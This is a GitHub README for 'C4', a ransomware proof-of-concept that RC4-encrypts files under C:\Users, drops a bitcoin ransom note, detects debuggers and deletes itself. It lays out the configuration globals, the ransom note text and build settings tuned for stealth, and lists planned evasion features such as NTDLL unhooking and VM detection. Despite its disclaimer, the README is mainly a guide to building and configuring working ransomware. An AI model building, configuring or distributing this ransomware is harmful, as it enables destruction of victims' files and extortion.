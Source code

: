 # C4

#### Compact Ransomware POC with Built-in Anti-Analysis


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Can drop a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Optionally self-deletes the executable after finishing.  
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo.gif](https://i.postimg.cc/d0Gjyqky/c4-demo.gif)](https://postimg.cc/DWyGV3cv)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
#pragma section(".text", read, execute)
// TRUE = Encrypt; FALSE = Decrypt
__declspec(allocate(".text")) BOOL   g_EncryptMode       = TRUE;

// TRUE = Drop a ransom note (g_Note)
__declspec(allocate(".text")) BOOL   g_RansomMode        = TRUE;

// TRUE = Hide the console window
__declspec(allocate(".text")) BOOL   g_HideConsole       = TRUE;

// TRUE = Exit immediately if a debugger is detected
__declspec(allocate(".text")) BOOL   g_AntiDebug         = TRUE;

// TRUE = Self-delete the EXE after finishing
__declspec(allocate(".text")) BOOL   g_SelfDelete        = TRUE;

// TRUE = Print each file encrypted, errors, and total runtime
__declspec(allocate(".text")) BOOL   g_Verbose           = FALSE;

// List of directories to process - final entry **must** be NULL
__declspec(allocate(".text")) LPCWSTR g_Directories[]    = {
    L"C:\\Users",
    NULL
};

// Ransom note text that will be written when g_RansomMode == TRUE
__declspec(allocate(".text")) const char* g_Note =
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n";

// File extensions to skip (include the dot)
LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", 
    L".conf", L".cfg", L".reg", L".dat", 
    L".bat", L".cmd"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem if you need to see output in verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection
